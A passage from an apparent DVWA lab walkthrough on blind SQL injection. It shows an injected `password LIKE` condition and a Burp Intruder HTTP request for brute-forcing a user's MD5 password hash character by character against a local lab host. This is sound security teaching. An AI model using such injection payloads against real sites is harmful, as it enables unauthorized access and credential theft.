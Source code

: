 As you can see, this script is selecting `first_name` and `last_name` from users with `id_user` providen by us, and then check number of rows returned by SQL Query.
After providing correct user id `1` we got following result:

![](resources/blindsqli_correct.png)

But we can add second condition checking password by injecting `1' AND password LIKE "5%"`
In this case, query will return true if password's hash starts with `5`.
Using this knowledge we can use brute-force method to get MD5 Hash of our password with maximum number of combinations equal `16 * 32 = 512`. For brute-forcing this, I recommend [Burp Suite](https://portswigger.net/burp) which is a very powerful toolset for web pentesting.

Intruder module can be used to perform Blind SQL Injection bruteforce.
In this example, we can use following code:
```http
GET /vulnerabilities/sqli_blind/?id=1%27+AND+password+LIKE+%27§variable§%25&Submit=submit HTTP/1.1
Host: 192.168.0.80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.0.80/vulnerabilities/sqli_blind/
Cookie: PHPSESSID=ivrfokob8oem54eevcr7pt3el4; security=low
Upgrade-Insecure-Requests: 1
```
And payload configured with letters from `0` to `f`

![](resources/blindsqli_payload.png)
